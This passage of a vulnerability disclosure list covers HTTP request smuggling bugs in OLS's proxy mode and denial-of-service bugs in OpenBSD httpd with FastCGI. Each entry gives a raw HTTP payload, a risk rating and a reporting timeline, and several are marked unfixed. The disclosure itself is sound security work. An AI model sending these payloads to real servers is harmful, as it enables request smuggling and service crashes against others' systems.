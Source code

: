   - Requirements: A backend server that treats `,chunked` as equivalent to `chunked`, and prioritizes `Transfer-Encoding` over `Content-Length`. These behaviors are allowed by the standards.
  - Risk: High. This allows request smuggling to standards-compliant servers.
  - Payload: `GET / HTTP/1.1\r\nHost: whatever\r\nTransfer-Encoding: ,chunked\r\nContent-Length: 5\r\nConnection: close\r\n\r\n0r\n\r\n`
  - Timeline:
    - November 3, 2023: Reported via email.
    - January 31, 2024: Remains unfixed.
14. OLS, when acting as a proxy, does not normalize `\n` to `\r\n`.
  - Use case: Request smuggling
  - Requirements: A backend server that does not interpret `\n` as a line ending in header lines. The standard allows servers to translate `\n` to ` `.
  - Risk: High. This bug is exploitable against standards-compliant servers.
  - Payload: `GET / HTTP/1.1\nHost: whatever\nConnection: close\n\n`
  - Timeline:
    - November 3, 2023: Reported via email.
    - January 31, 2024: Remains unfixed.
15. OLS, when acting as a proxy, translates chunked message bodies containing an extra `\r\n` before the terminator chunk without replacing the `Transfer-Encoding` header with `Content-Length`.
  - Use case: Request smuggling
  - Requirements: None.
  - Risk: High. This bug is exploitable against arbitrary backend servers.
  - Payload: `POST / HTTP/1.1\r\nHost: a\r\nTransfer-Encoding: chunked\r\n\r\n17\r\n0\r\n\r\nGET / HTTP/1.1\r\n\r\n\r\n\r\n0\r\n\r\n`
  - Timeline:
    - November 30, 2023: Reported via email.
    -January 31, 2024: Remains unfixed.

### OpenBSD httpd
1. When OpenBSD httpd receives a request with a chunked message body when FastCGI is enabled, sending an extra byte after the end of the message body will segfault the worker process due to a null pointer dereference, which causes the parent process to exit 0.
  - Use case: DoS
  - Requirements: FastCGI is enabled.
  - Risk: High. This is a trivial-to-exploit bug that crashes the server.
  - Payload: `GET / HTTP/1.1\r\nHost: whatever\r\nTransfer-Encoding: chunked\r\n\r\n0\r\n\r\n\x00`
  - Timeline:
    - November 1, 2023: Reported via email.
    - November 8, 2023: Fixed in [commit](https://github.com/openbsd/src/commit/76ed904538b7966e735c4736a6e2cf7222ad67cf).
2. When OpenBSD httpd receives a request with a chunked message body when FastCGI is enabled, the message body is bizarrely echoed back before the response is sent.
  - Use case: DoS
  - Requirements: FastCGI is enabled.
  - Risk: Medium. This will invalidate the request stream for any chunked message, which will ruin shared connections.
  - Payload: `POST / HTTP/1.1\r\nHost: whatever\r\nTransfer-Encoding: chunked\r\n\r\n1\r\nZ\r\n0\r\n\rn\`
  - Timeline:
    - January 4, 2024: Reported via email.
    - January 31, 2024: Remains unfixed.
